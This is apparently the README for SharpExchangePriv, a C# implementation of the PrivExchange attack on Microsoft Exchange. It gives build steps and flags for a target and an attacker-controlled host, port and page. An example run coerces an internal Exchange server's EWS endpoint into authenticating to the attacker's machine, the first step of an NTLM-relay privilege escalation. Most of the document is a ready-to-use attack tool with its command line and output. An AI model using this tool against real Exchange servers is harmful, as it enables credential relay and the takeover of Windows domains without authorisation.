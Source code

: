 # SharpExchangePriv

## Description ##

A C# implementation of PrivExchange by [@_dirkjan](https://twitter.com/_dirkjan). Kudos to [@g0ldenGunSec](https://twitter.com/G0ldenGunSec), as I relied on his code.

## Compile Instructions ## 

SharpExchangePriv has been built against .NET 3.5 and is compatible with Visual Studio 2017. Simply open the solution file and build the project.

I used the CommandLineParser in order to parse the arguments. This will create the `CommandLine.dll` file, along with the executable. You can simple merget the .exe and the .dll into one executable file:

`ILMerge.exe /out:C:\SharpExchangePriv.exe C:\Release\SharpExchangePriv.exe C:\Release\CommandLine.dll`

## Usage ##

#### `--targetHost`

Set the IP of the target host.

#### `--attackerHost`

Set the attacker's IP

#### `--attackerPort`

Set the attacker's port

#### `--attackerPage`

Set the attacker's page

#### `--ssl`

Enable SSL

#### `--exchangeVersion`

Set Exchange version, default is 2015

#### `--exchangePort`

Set Exchange target port

## Example ##

```
C:\Users\george.brown\Desktop>SharpExchangePriv.exe --attackerHost 192.168.11.132 --targetHost 192.168.11.10
 /$$$$$$$           /$$            /$$$$$$$$                     /$$
| $$__  $$         |__/           | $$_____/                    | $$
| $$  \ $$ /$$$$$$  /$$ /$$    /$$| $$       /$$   /$$  /$$$$$$$| $$$$$$$   /$$$$$$  /$$$$$$$   /$$$$$$   /$$$$$$
| $$$$$$$//$$__  $$| $$|  $$  /$$/| $$$$$   |  $$ /$$/ /$$_____/| $$__  $$ |____  $$| $$__  $$ /$$__  $$ /$$__  $$
| $$____ /| $$  \__ /| $$ \  $$/$$/ | $$__ /    \  $$$$/ | $$      | $$  \ $$  /$$$$$$$| $$  \ $$| $$  \ $$| $$$$$$$$
| $$     | $$      | $$  \  $$$/  | $$        >$$  $$ | $$      | $$  | $$ /$$__  $$| $$  | $$| $$  | $$| $$_____ /
| $$     | $$      | $$   \  $/   | $$$$$$$$ /$$/\  $$|  $$$$$$$| $$  | $$|  $$$$$$$| $$  | $$|  $$$$$$$|  $$$$$$$
|__/     |__/      |__/    \_/    |________/|__/  \__/ \_______/|__/  |__/ \_______/|__/  |__/ \____  $$ \_______/
                                                                                               /$$  \ $$
                                                                                              |  $$$$$$/
                                                                                               \______ /
                                                                                                            @den_n1s

The target URL is https://192.168.11.10:443/EWS/Exchange.asmx

Sent request to exchange server: https://192.168.11.10:443/EWS/Exchange.asmx

HTTP 200 response received, the target Exchange server should be authenticating shortly.
```

## Contact ##

Please submit any bugs on the Github project page or give me a shout on twitter [@den_n1s](https://twitter.com/den_n1s)
